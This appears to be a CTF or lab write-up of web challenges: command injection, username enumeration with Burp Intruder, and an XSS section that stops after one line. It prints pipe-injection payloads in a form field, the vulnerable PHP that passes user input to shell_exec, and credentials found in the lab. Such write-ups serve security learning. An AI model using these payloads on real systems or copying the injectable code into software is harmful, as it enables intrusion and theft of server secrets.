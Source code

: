 # Web Attack 3: Command Injection

- watched Request and Response of the ping page via Burp Proxy
- tried to see if we can execute other commands by adding or piping our own commands

```sh
address=127.0.0.1 | ls -la
```

```sh
total 912
drwxr-xr-x. 2 www-data www-data    166 Aug 22  2018 .
drwxr-xr-x. 3 root     root         18 Jul 17  2018 ..
-rwxr-xr-x. 1 root     root     140936 Aug 20  2018 bootstrap.min.css
-rwxr-xr-x. 1 root     root     542194 Aug 20  2018 bootstrap.min.css.map
-rwxr-xr-x. 1 root     root      51039 Aug 20  2018 bootstrap.min.js
-rwxr-xr-x. 1 root     root     176087 Aug 20  2018 bootstrap.min.js.map
-rwxr-xr-x. 1 root     root       5430 Aug 20  2018 favicon.ico
-rwxr-xr-x. 1 root     root       1358 Aug 21  2018 index.php
-rwxr-xr-x. 1 root     root        467 Aug 20  2018 signin.css
```

- after that we accessed the `index.php` file

```php
<?php
/* GOLDNUGGET is in env vars */
$response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST['address']."'");
echo $response;
?>
```

- based on the given information we watched the environment variables

```sh
address=127.0.0.1 | printenv
```

- FLAG=FLAG{ThePwr0fTheS3m1}

# Web Security: Username Enumeration

- watched Request and Response of the login page via Burp Proxy
- used the Intruder of Burp Proxy with the given username list as the first payload and the password `DarkSide2021` as the second payload to automatically try out all variants
- valid usernames on the webapp:
  - jabba
  - tarkin
- user: `vader` has the password `DarkSide2021`

# GlockenEmil 2.0 – XSS

- watched Request and Response of the product page when a user rates a product via Burp Proxy
- tried to test if javascript code is being reflected
